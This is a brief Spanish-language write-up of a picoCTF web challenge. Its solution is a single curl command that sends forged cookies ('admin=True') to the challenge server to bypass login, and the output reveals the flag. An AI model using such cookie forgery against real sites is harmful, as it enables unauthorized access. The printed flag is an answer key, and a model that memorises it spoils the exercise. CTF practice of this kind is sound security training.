 Descripción
	The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/13594/` ([link](https://jupiter.challenges.picoctf.org/problem/13594/)) or http://jupiter.challenges.picoctf.org:13594
	
Solución
	
	┌──(kali㉿DESKTOP-B014NUV)-[~]
	└─$ curl -X GET https://jupiter.challenges.picoctf.org/problem/13594/flag -H "Cookie: username=admin; password=admin; admin=True" | grep -s picoCTF
	  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
	                                 Dload  Upload   Total   Spent    Left  Speed
	100  1312  100  1312    0     0    576      0  0:00:02  0:00:02 --:--:--   576
	            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{th3_c0nsp1r4cy_l1v3s_d1c24fef}</code></p>
	
Notas adicionales
	
	
Referencias
	
	